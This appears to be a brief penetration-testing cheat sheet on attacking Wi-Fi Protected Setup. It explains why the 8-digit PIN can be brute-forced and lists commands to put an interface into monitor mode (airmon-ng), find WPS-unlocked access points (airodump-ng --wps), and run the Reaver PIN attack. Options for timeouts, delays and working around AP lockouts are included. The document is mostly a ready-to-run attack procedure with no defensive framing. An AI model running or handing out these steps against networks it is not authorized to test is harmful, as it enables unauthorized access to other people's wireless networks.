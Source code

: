 ### WPS (Wifi Protected Setup)
```
8 digits can be bruteforced - because 4 digits are checked separately
Access Point will mostly block connection after to many requests
```

### Reaver needs the interface to be in monitor mode
```
airmon-ng check kill
airmon-ng start <interface>
```

### All networks with WPS Lock options set to "no" can be attacked
```
airodump-ng <interface> --wps
```

### Start brute force
```
reaver -i <interface> -b <bssid> 
```

### General information
```
default timeout value is 5 (minimum 1 second), change it with: -t <seconds>
default delay period between pin attempts is 1 second, change it with: -d <seconds>
AP will temporarily lock WPS state, reaver will wait 315 seconds, change the amount with: --lock-delay=<seconds>
if AP does not send an EAP FAIL message, force the response with: --eap-terminate
```


